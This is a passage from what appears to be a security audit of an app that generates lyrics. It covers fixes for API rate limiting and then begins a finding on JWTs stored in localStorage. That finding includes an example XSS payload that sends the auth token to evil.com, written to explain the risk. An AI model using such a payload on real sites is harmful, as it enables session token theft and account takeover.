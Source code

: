```typescript
          code: 'RATE_LIMIT_EXCEEDED',
          message: `Too many requests. Try again in ${Math.ceil((reset - Date.now()) / 1000)}s`,
          limit,
          remaining: 0,
          reset,
        },
      }),
      {
        status: 429,
        headers: {
          'X-RateLimit-Limit': limit.toString(),
          'X-RateLimit-Remaining': remaining.toString(),
          'X-RateLimit-Reset': reset.toString(),
        },
      }
    );
  }

  // Proceed with request
  const result = await generateLyrics(prompt);
  return successResponse(result);
});
```

**Alternative: Supabase Edge Function Quotas**
```toml
# supabase/config.toml
[functions.generate-lyrics]
verify_jwt = true

# Add in Supabase dashboard:
# Settings → API → Rate Limits
# - Authenticated requests: 10/minute
# - Anonymous requests: 3/minute
```

**Impact**: Prevents $1000+ abuse  
**Effort**: 3 hours (setup Upstash)

---

### ⚠️ HIGH #3: Insecure JWT Storage

**Vulnerability:**
```typescript
// ❌ VULNERABLE: JWT in localStorage (XSS can steal it)
localStorage.setItem('supabase.auth.token', jwt);

// Attacker injects XSS:
<script>
  fetch('https://evil.com/steal?token=' + localStorage.getItem('supabase.auth.token'));
</script>
```
